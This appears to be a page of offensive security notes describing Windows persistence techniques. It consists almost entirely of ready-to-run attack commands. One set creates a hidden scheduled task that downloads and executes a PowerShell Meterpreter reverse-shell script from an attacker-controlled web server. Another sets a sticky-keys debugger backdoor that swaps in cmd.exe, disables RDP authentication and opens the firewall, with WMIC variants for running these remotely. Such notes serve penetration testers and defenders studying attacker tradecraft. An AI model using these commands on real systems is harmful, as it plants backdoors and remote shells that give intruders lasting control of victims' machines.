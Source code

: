 ## Windows Techniques

* [http://pwnwiki.io/#!persistence/windows/general.md](http://pwnwiki.io/#!persistence/windows/general.md) - General Windows Persistence Commands

{% tabs %}
{% tab title="Sched tasks" %}
* _RTFM: Task Scheduler Persistence - pg. 32_
* _PTFM:  Task Scheduler - pg. 25_
* We can use Metasploit to configure a schtask to run once a day to connect back to our meterpreter handler
* First we grab and modify a copy of invoke-shellcode.
  * \#cd /opt/PowerSploit/CodeExecution
  * \#cp Invoke-Shellcode.ps1 1.ps1
* Next we edit the script to add our shell info
  * Add the following line when filling in the listener IP and port
  * \# invoke-Shellcode -Payload windows/meterpreter/reverse\_https -Lhost \[LISTENER IP] -Lport \[Listener-port] -Force;
* Now we have a shortened invoke-shellcode script and can move the file off to a web server
  * \#cp 1.ps1/var/www/
  * \#service apache2 start
* Verify by visiting htt\[://\[your ip]/1.ps1
* Now we add a command to schtasks that downloads and runs the target script everyday
  * \#schtasks /create /tn \[Fake (service name] /tr “c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -NoLogo -WindowStyle hidden -Noninteractive -ep bypass -nop -c ‘IEX ((new-object net.webclient).downloadstring(’ ‘http://\[Your IP]/1.ps1’ ‘ ’))' " /SC DAILY /ST 12:00:00
* Options
  * If you have system privileges you can run this under SYSTEM. Add “/ru System” to the above command
  * If you are attacking a 32 bit system, change the powershell location in schtask to “c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe”
{% endtab %}

{% tab title="Sticky Keys" %}
* Take advantage of the sticky key functionality to replace the sticket key exe with a shell
* Done by changing registry settings
  * \>REG ADD “HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe” /V Debugger /t REG\_SZ /d “C:\windows\system32\cmd.exe”
  * \>REG ADD “HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp” /v UserAuthentication /t REG\_DWORD /d 0
  * \>REG ADD “HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp” /v SecurityLayer /t REG\_DWORD /d 0
* Might also need to add
  * \>netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
  * \>REG ADD “HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer” /v fDenyTSConnections /t REG\_DWORD /d 0 /f
* Performing the above via WMIC
  * \>wmic /user:\[username] /password:\[password] /node:\[server] process call create “C:\Windows\system32\reg.exe ADD “HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe” /v Debugger /t REG\_SZ /d \ “C:\windows\system32\cmd.exe\” /f”
  * \>wmic /user:\[username] /password:\[password] /node:\[server] process call create “C:\Windows\system32\reg.exe ADD “HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp\” /v UserAuthentication /t REG\_DWORD /d 0 /f"
  * \>wmic /user:\[username] /password:\[password] /node:\[server] process call create “C:\Windows\system32\reg.exe REG ADD “HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp\” /v SecurityLayer /t REG\_DWORD /d 0 /f"
* If using kerberos, we can replace the username and password with /authority:"Kerberos:\[Domain]\\\[Server]"
{% endtab %}
